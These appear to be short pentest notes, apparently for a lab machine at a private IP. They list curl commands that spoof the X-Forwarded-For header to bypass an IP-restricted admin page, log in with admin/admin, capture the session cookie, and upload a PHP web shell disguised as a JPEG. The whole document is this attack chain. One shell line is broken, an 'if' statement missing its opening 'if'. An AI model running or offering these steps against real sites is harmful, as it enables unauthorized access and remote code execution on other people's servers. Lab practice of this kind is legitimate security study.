 
# Exmples with X-Forwarded-For:
## Get page
curl http://192.168.81.138/administration/ -H "X-Forwarded-For: 127.0.0.1:80"

## Login
curl http://192.168.81.138/administration/ -H "X-Forwarded-For: 127.0.0.1:80" -d "username=admin&password=admin" | grep "welcome back" 

curl http://192.168.81.138/administration/ -v -H "X-Forwarded-For: 127.0.0.1:80" -d "username=admin&password=admin" -s | grep -q  "welcome back"; then echo "Logged In"; else echo "Login Failed"; fi

## Get the login cookie from the last response 
curl http://192.168.81.138/administration/ -H "X-Forwarded-For: 127.0.0.1:80" -v -d "username=admin&password=admin" -c cookie

## Get upload page
curl http://192.168.81.138/administration/upload/ -H "X-Forwarded-For: 127.0.0.1:80" -v -b cookie 

## Post a file. (set mimetype on image from php)
curl http://192.168.81.138/administration/upload/ -H "X-Forwarded-For: 127.0.0.1:80" -b cookie -F 'document=@shell.php;type=image/jpg'  --proxy 127.0.0.1:8080
